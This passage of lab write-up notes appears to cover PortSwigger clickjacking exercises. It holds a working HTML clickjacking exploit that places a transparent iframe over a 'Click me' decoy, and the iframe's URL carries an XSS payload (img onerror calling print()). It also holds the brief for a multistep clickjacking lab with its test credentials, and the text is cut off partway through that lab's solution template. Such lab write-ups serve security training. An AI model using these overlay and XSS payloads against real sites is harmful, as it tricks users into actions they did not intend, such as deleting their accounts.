 						Hover over "Test me" and ensure the cursor changes to a hand indicating that the div element is positioned correctly. If not, adjust the position of the div element by modifying the top and left properties of the style sheet.
					</li>
					<li>
						Click <strong>Test me</strong>. The print dialog should open.
					</li>
					<li>
						Change "Test me" to "Click me" and click <strong>Store</strong> on the exploit server.
					</li>
					<li>
						Now click on <strong>Deliver exploit to victim</strong> and the lab should be solved.
					</li>
				</ol>
            </div>
        </div>

exploit

```html
<style>
    iframe {
        position:relative;
        width:700px;
        height: 500px;
        opacity: 0.0001;
        z-index: 2;
    }
    div {
        position:absolute;
        top:418px;
        left:80px;
        z-index: 1;
    }
</style>
<div>Click me</div>
<iframe src="https://0ae5001b04067057c0830a1e00020071.web-security-academy.net/feedback?name=%3Cimg%20src=%221%22%20onerror=%22print()%22%3E&email=111%40test.com&subject=1&message=1#feedbackResult"></iframe>
```



#### Multistep clickjacking

> This lab has some account functionality that is protected by a CSRF token and also has a confirmation dialog to protect against Clickjacking. To solve this lab construct an attack that fools the user into clicking the delete account button and the confirmation dialog by clicking on "Click me first" and "Click me next" decoy actions. You will need to use two elements for this lab.
>
> You can log in to the account yourself using the following credentials: wiener:peter 

<div class="component-solution is-expandable expanded">
            <h4>Solution<svg xmlns="http://www.w3.org/2000/svg" width="18" height="9" viewBox="0 0 18 9"><polygon points="17 -0.01 9 7.01 1 -0.01 0 1.09 9 8.99 18 1.09 17 -0.01"></polygon></svg></h4>
            <div>
				<ol>
					<li>
						Log in to your account on the target website and go to the user account page.
					</li>
					<li>
						<p>
							Go to the exploit server and paste the following HTML template into the "Body" section:
						</p>
						<code class="code-scrollable">&lt;style&gt;
	iframe {
		position:relative;